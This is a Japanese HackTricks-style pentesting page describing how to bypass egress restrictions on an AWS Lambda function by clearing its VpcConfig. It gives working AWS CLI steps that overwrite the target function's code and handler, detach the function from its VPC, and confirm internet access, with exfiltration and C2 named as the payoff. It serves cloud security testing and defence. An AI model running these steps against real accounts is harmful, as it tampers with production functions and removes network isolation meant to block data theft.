 # AWS Lambda – VPC Egress Bypass by Detaching VpcConfig

{{#include ../../../../banners/hacktricks-training.md}}

空の VpcConfig (SubnetIds=[], SecurityGroupIds=[]) に更新することで、制限された VPC から Lambda 関数を強制的に切り離します。関数は Lambda が管理するネットワーク領域で実行されるようになり、アウトバウンドのインターネットアクセスを回復し、NAT のないプライベート VPC サブネットで適用される egress コントロールをバイパスします。

## 悪用

- 事前条件: ターゲット関数に対する lambda:UpdateFunctionConfiguration（検証用に lambda:InvokeFunction があると良い）、およびコード/ハンドラを変更する場合はそれらを更新する権限。
- 想定: 関数は現在 VpcConfig が NAT のないプライベートサブネットを指しており（そのためアウトバウンドのインターネットがブロックされている）設定されている。
- リージョン: us-east-1

### 手順

0) アウトバウンド HTTP が動作することを証明する最小ハンドラを用意する

cat > net.py <<'PY'
import urllib.request, json

def lambda_handler(event, context):
try:
ip = urllib.request.urlopen('https://checkip.amazonaws.com', timeout=3).read().decode().strip()
return {"egress": True, "ip": ip}
except Exception as e:
return {"egress": False, "err": str(e)}
PY
zip net.zip net.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://net.zip --region $REGION || true
aws lambda update-function-configuration --function-name $TARGET_FN --handler net.lambda_handler --region $REGION || true

1) 後で必要に応じて復元できるように現在の VPC 設定を記録する

aws lambda get-function-configuration --function-name $TARGET_FN --query 'VpcConfig' --region $REGION > /tmp/orig-vpc.json
cat /tmp/orig-vpc.json

2) 空のリストを設定して VPC を切り離す

aws lambda update-function-configuration \
--function-name $TARGET_FN \
--vpc-config SubnetIds=[],SecurityGroupIds=[] \
--region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done

3) Invoke してアウトバウンドアクセスを確認する

aws lambda invoke --function-name $TARGET_FN /tmp/net-out.json --region $REGION >/dev/null
cat /tmp/net-out.json

(Optional) 元の VPC 設定を復元する

if jq -e '.SubnetIds | length > 0' /tmp/orig-vpc.json >/dev/null; then
SUBS=$(jq -r '.SubnetIds | join(",")' /tmp/orig-vpc.json); SGS=$(jq -r '.SecurityGroupIds | join(",")' /tmp/orig-vpc.json)
aws lambda update-function-configuration --function-name $TARGET_FN --vpc-config SubnetIds=[$SUBS],SecurityGroupIds=[$SGS] --region $REGION
fi

### 影響
- 関数から制限のないアウトバウンドインターネットアクセスが復元され、NAT のないプライベートサブネット内で意図的に隔離されていたワークロードからの data exfiltration や C2 を可能にします。

### 例（VpcConfig を切り離した後の出力）

{"egress": true, "ip": "34.x.x.x"}

### クリーンアップ
- 一時的に作成したコード/ハンドラ変更がある場合は復元してください。
- 必要に応じて上記のように /tmp/orig-vpc.json に保存した元の VpcConfig を復元してください。
{{#include ../../../../banners/hacktricks-training.md}}
